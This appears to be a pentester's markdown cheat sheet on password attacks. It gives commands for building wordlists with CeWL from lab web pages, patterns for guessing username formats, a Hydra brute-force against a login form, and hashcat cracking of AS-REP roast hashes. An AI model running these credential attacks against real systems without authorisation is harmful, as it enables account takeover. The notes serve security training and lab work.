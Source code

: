 # Password & Hash


## Generate Password List (CEWL)

```
cewl -d 5 -m 3 http://postfish.off/team.html -w /home/kali/Desktop/cewl.txt
```

## Generate Username Combinations like

```
firstlast
first.last
f.last
first.l
l.first
lfirst
first
last
```

https://github.com/m8sec/CrossLinked
https://github.com/soxoj/username-generation-guide

# Hydra
## http-post-form
```
hydra -I -f -L usernames.txt -P passwords.txt 'http-post-form://192.168.233.61:8081/service/rapture/session:username=^USER64^&password=^PASS64^:C=/:F=403'
```

# Create custom wordlist
```
cewl http://192.168.233.61:8081/ | grep -v CeWL > custom-wordlist.txt
cewl --lowercase http://192.168.233.61:8081/ | grep -v CeWL  >> custom-wordlist.txt
```
---
# Hashcat
- best64
```
sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```


